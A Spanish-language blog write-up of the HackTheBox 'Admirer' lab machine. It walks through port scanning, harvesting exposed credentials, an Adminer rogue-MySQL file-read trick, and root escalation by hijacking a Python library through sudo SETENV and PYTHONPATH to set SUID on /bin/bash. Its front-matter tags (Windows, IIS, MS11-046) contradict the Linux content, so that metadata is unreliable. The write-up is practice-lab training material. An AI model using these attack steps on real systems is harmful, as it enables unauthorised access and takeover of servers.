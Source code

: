 ```yaml
---
title: HackTheBox - Admirer
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, IIS, MS11-046, Misconfiguration]
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Admirer/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Admirer Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **IIS, MS11-046, Misconfiguration**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Admirer`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Admirer/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Admirer/02-versions.png)

c. Visitamos el sitio web

![](/assets/images/HTB/Easy/Admirer/03-web.png)

* Al no encontrar algo interesante, fuzzeamos en busca de archivos o directorios con **nmap**

  ```bash
  root@kali> nmap -p80 --script http-enum 10.10.10.187

  PORT   STATE SERVICE
  80/tcp open  http
  | http-enum: 
  |_  /robots.txt: Robots file
  ```

* En el archivo **`robots.txt`** vemos el siguiente mensaje

  ```bash
  # This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo
  Disallow: /admin-dir
  ```

* Como nos dicen que existe un archivo con credenciales, buscamos por nombres de archivos como **`creds.txt` o `credentials.txt`**

  * **URL:** http://<IP>/admin-dir/credentials.txt

    ```bash
    [Internal mail account]
    w.cooper@admirer.htb
    fgJr6q#S\W:$P

    [FTP account]
    ftpuser
    %n?4Wz}R$tTF7

    [Wordpress account]
    admin
    w0rdpr3ss01!
    ```

d. Nos autenticamos con las credenciales antes encontradas en el servicio FTP

```bash
root@kali> ftp 10.10.10.187
Name (10.10.10.187:kali): ftpuser
Password: %n?4Wz}R$tTF7
230 Login successful.
ftp> dir
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
```

* Descargamos los anteriores archivos con **`get <Archivo>`**

* Ahora los analizamos y encontramos muchas credenciales, un usuario válido **waldo**, una estructura en SQL y un directorio **utility-scripts**

  * **index.php**

    ```php
    $servername = "localhost";
    $username = "waldo";
    $password = "]F7jLHw:*G>UPrTo}~A"d6b";
    $dbname = "admirerdb";
    ```

  * **dump.sql**

    ```sql
    -- Table structure for table `items`
    ```

  * **utility-scripts**

    ```bash
    [ 4096]  utility-scripts
    ├── [ 1795]  utility-scripts/admin_tasks.php
    ├── [  401]  utility-scripts/db_admin.php
    ├── [   20]  utility-scripts/info.php
    └── [   53]  utility-scripts/phptest.php
    ```

e. Fuzeamos por archivos **.php** en este directorio

  ```bash
  root@kali> wfuzz -c -t 100 --hc=404  -w /usr/share/seclists/Discovery/Web-Content/big.txt  http://admirer.htb/utility-scripts/FUZZ.php

  000001874:   200        51 L     235 W      4157 Ch     "adminer"
  ```

* Visitamos este servicio, pero, ninguna de las credenciales antes encontradas funcionará por lo que buscamos por vulnerabilidades asociadas a este servicio -  [Artículo](https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability)

## Configurando el entorno 🎋

* Modificamos el fichero **/etc/mysql/mariadb.conf.d/50-server.cnf**

  ```bash
  bind-address            = 0.0.0.0
  ```
  > Hacemos que nuestro servidor sea accesible desde cualquier dirección IP.

* Ahora, crearemos un nuevo usuario **admirer:admirer** que tenga total acceso a la base de datos **admirerdb** que tendrá una tabla **items**

  ```bash
  root@kali> mysql

  MariaDB [(none)]> CREATE USER admirer@<tun0 IP> IDENTIFIED BY 'admirer';
  MariaDB [(none)]> CREATE DATABASE admirerdb;
  MariaDB [(none)]> use admirerdb;
  MariaDB [(admirerdb)]> CREATE TABLE items(id VARCHAR(10), name VARCHAR(255), PRIMARY KEY(id));

  # Damos total acceso al uusario **`admirer`** sobre la base de datos **`admirerdb`** y le decimos que se
  # podrá conectar desde cualquier dirección IP.
  MariaDB [(admirerdb)]> GRANT ALL PRIVILEGES ON admirerdb.* TO admirer@'%' WITH GRANT OPTION;

  # Recargar los privilegios de MySQL 
  MariaDB [(admirerdb)]> FLUSH PRIVILEGES;
  ```

g. Ahora, desde **adminer.php** nos conectamos a nuestro servidor

![](/assets/images/HTB/Easy/Admirer/04-admirer.png)

* Los datos que captureremos son las credenciales del usuario **waldo** que están alojadas en el fichero index.php (Esto se vió al descomprimir el fichero **html.tar.gz**), podremos leer este archivo con ayuda de **Wireshark**

* Primero, nos pondremos en escucha por la interfaz de red **tun0** y en Adminer ejecutaremos la siguiente sentencia SQL

  ```sql
  LOAD DATA LOCAL INFILE '/var/www/html/index.php'
  INTO TABLE test FIELDS TERMINATED BY '\n'
  ```

  ![](/assets/images/HTB/Easy/Admirer/05-sql.png)

* Ahora en Wireshark veremos los datos que hemos recibido

  ![](/assets/images/HTB/Easy/Admirer/06-wireshark.png)

  ![](/assets/images/HTB/Easy/Admirer/07-creds.png)


h. Con estas credenciales nos podemos conectar al servicio **SSH**

```bash
root@kali> ssh waldo@<Admirer IP>
waldo@admirer:~$
```

### Escalada de Privilegios 💹

a. Listamos nuestro privilegios a nivel de sudoers

```bash
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
User waldo may run the following commands on admirer:
  (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

* Al inspeccionar el script vemos que si seleccionar la opción **`6) Backup web data`** se usa un script **`backup.py`**
  ```bash
  backup_web(){
    if [ "$EUID" -eq 0 ]                                                                                   
    then                
      echo "Running backup script in the background, it might take a while..."
      /opt/scripts/backup.py &                                                                                  
    else                                                                                                    
      echo "Insufficient privileges to perform the selected operation."
    fi
  } 
  ```

* Inspeccionamos el script **backup.py**

  ```bash
  #!/usr/bin/python3

  from shutil import make_archive
  src = '/var/www/html/'
  # old ftp directory, not used anymore
  #dst = '/srv/ftp/html'
  dst = '/var/backups/html'
  make_archive(dst, 'gztar', src)
  ```

* Si nos fijamos bien el permiso sudoers, vemos **SETENV** esta directiva nos permite indicar una variable de entorno para cargar algo [Hacktricks - SETENV](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

* En este caso podemos cargar la librería **shutil** desde donde le indiquemos

b. Creamos un fichero 'shutil.py' en **/dev/shm** con el siguiente código

```python
import os
os.system("chmod +s /bin/bash")
```

* Ahora ejecutamos **/opt/scripts/admin_tasks.sh** como root, escogeremos la opción **6) Backup web data** y le indicamos la dirección de nuestro shutil.py

  ```bash
  waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh
  <SNIP>
  Choose an option: 6
  waldo@admirer:/dev/shm$ ls -la /bin/bash
  -rwsr-sr-x 1 root root 1099016 May 15  2017 /bin/bash
  waldo@admirer:/dev/shm$ bash -p
  bash-4.4# whoami
  root
  ```


